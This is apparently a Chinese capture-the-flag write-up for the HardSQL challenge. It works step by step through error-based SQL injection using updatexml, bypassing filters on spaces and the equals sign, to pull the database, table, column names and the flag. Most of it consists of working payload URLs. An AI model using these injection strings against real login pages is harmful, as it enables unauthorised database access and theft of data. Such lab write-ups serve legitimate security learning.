 # [极客大挑战 2019]HardSQL

1. SQL注入题，打开是登录窗口，抓包查看

![image-20211011162901638](https://i.loli.net/2021/10/11/IWPVbx8aCGSFUT2.png)



2. Fuzz发现构造闭合的方式

```html
username=admin'or'1
```

​	

3. 过滤了许多关键词

```
+
-
and
*
<
>
|
空格
等等
```



4. 使用Burpsuite Fuzz `%00 到 %ff`得到空格的替代字符

![image-20211011202936594](https://i.loli.net/2021/10/11/D3Pw6Xu4RgVGAeW.png)



```
http://f57b9924-6938-4343-8229-1c27dec37eb6.node4.buuoj.cn:81/check.php?username=admin123&password=admin'or(updatexml(1,concat(0x7e,(select%00MM),0x7e),1))or'0
```



5. 使用 updatexml 报错注入获取数据

```sql
/check.php?username=admin123&password=admin%27or(updatexml(1,concat(0x7e,user(),0x7e),1))or%270
```

![image-20211012095659360](https://i.loli.net/2021/10/12/tBgxn5LM2c3mVCF.png)





```sql
/check.php?username=admin123&password=admin%27or(updatexml(1,concat(0x7e,database(),0x7e),1))or%270
```

![image-20211012095753540](https://i.loli.net/2021/10/12/2WN7APCQZbeiSGK.png)



6. 获取表名

发现会过滤等于号（=），可以用like代替

```sql
/check.php?username=admin123&password=admin%27or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like(database())),0x7e),1))or%27
```

![image-20211012100353746](https://i.loli.net/2021/10/12/3sW6FZk9CzBfoQY.png)

得到：H4rDsq1



7. 获取字段名

```sql
/check.php?username=admin123&password=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))or%27
```

![image-20211012100747475](https://i.loli.net/2021/10/12/mQreJ1YSsfPRp75.png)



8. 获取数据

```sql
/check.php?username=admin123&password=admin%27or(updatexml(1,concat(0x7e,(select(id,username,password)from('H4rDsq1')),0x7e),1))or%27
```

![image-20211012101037739](https://i.loli.net/2021/10/12/ZF2juTEwXUpdYyc.png)



Right 函数查看右边部分

![image-20211012101850661](https://i.loli.net/2021/10/12/vVBkrslgADxh6eI.png)

Get Flag! 

